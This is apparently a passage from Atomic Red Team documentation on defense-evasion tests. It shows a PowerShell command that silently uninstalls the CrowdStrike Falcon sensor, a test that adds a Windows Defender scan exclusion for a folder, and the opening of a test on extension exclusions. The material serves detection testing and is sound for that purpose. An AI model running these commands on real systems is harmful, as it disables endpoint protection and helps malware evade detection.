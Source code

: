 #### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
if (Test-Path "#{falcond_path}") {. "#{falcond_path}" /repair /uninstall /quiet } else { Get-ChildItem -Path "C:\ProgramData\Package Cache" -Include "WindowsSensor.exe" -Recurse | % { $sig=$(Get-AuthenticodeSignature -FilePath $_.FullName); if ($sig.Status -eq "Valid" -and $sig.SignerCertificate.DnsNameList -eq "CrowdStrike, Inc.") { . "$_" /repair /uninstall /quiet; break;}}}
```

<br/>
<br/>

## Atomic Test #23 - Tamper with Windows Defender Evade Scanning -Folder

Malware can exclude a specific path from being scanned and evading detection.
Upon successul execution, the file provided should be on the list of excluded path.
To check the exclusion list using poweshell (Get-MpPreference).ExclusionPath

**Supported Platforms:** Windows

**auto_generated_guid:** 0b19f4ee-de90-4059-88cb-63c800c683ed

#### Inputs:

| Name            | Description                                | Type | Default Value |
| --------------- | ------------------------------------------ | ---- | ------------- |
| excluded_folder | This folder will be excluded from scanning | path | C:&#92;Temp   |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$excludedpath= "#{excluded_folder}"
Add-MpPreference -ExclusionPath $excludedpath
```

#### Cleanup Commands:

```powershell
$excludedpath= "#{excluded_folder}"
Remove-MpPreference -ExclusionPath $excludedpath
```

<br/>
<br/>

## Atomic Test #24 - Tamper with Windows Defender Evade Scanning -Extension

Malware can exclude specific extensions from being scanned and evading detection.
Upon successful execution, the extension(s) should be on the list of excluded extensions.
To check the exclusion list using poweshell (Get-MpPreference).ExclusionExtension.
